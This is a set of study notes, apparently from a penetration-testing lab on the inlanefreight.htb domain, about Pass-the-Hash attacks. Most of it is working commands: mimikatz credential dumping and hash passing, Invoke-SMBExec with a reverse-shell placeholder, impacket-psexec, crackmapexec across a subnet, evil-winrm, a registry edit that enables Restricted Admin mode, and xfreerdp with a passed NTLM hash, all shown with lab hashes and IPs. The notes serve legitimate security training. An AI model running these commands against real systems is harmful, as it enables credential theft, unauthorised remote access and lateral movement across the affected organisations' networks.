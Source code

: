 # Pass the Hash

## Minikatz (Windows)

```
mimikatz.exe privilege::debug "sekurlsa::logonPasswords full" exit
```

get dump of all hashes

```cmd-session
mimikatz.exe privilege::debug "sekurlsa::pth /user:$username /rc4:$rc4hash /domain:inlanefreight.htb /run:cmd.exe" exit
```


`/rc4` or = `/NTLM` - NTLM hash of the user's password

[https://github.com/gentilkiwi](https://github.com/gentilkiwi)

## with PowerShell Invoke-TheHash (Windows)

attacks with WMI and SMB

Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have administrative rights on the target computer

```powershell
Invoke-SMBExec -Target $IP -Domain inlanefreight.htb -Username $username-Hash $hash -Command "reverse shell"
```


nc listener

we get cmd.exe of that user
![[image 44.png]]


# Q. Which IP to give in reverse shell????

[https://github.com/Kevin-Robertson/Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)

# with Impacket (Linux)

<pre class="language-shell-session" data-overflow="wrap"><code class="lang-shell-session"><strong>impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
</strong></code></pre>
![[image 1 3.png]]


There are several other tools in the Impacket toolkit we can use for command execution using Pass the Hash attacks, such as:

* [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
* [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
* [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

## with CrackMapExec (Linux)


```shell-session
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```


## with evil-winrm (Linux)


```shell-session
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```



> [!NOTE]
> - [ ] **Note: When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb**

## with RDP (Linux)

`Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with the following error:
![[image 2 2.png]]

### **Enable Restricted Admin Mode to Allow PtH**

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```


this on first machine (MS01) to go at DC01
![[image 3 2.png]]

### **Pass the Hash Using RDP**

```shell-session
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B /cert-ignore /timeout:60000
```



> [!NOTE]
> > Note: There is one exception, if the registry key `FilterAdministratorToken` (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account.

